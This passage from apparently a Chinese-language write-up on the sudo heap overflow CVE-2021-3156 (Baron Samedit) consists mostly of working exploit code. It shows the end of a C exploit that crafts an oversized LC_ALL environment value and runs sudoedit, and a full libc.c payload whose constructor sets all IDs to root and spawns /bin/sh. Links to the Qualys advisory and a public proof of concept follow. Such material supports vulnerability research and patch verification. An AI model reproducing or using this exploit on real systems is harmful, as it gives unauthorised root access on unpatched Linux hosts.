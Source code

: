 ```c
    strcpy(LC, "LC_ALL=C.UTF-8@");
    memset(LC+15, 'A', 0x20+0x40+0x40+0x20);
    envp[envp_pos++] = LC;
    envp[envp_pos++] = 0;

    execve("/usr/bin/sudoedit",s_argv,envp);
    return 0;
}
```

libc.c:

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
}

```

![image-20210203154735075](https://tva1.sinaimg.cn/large/008eGmZEgy1gnae81jt90j31au09u77b.jpg)

参考资料:

[+]https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit

[+]https://github.com/blasty/CVE-2021-3156







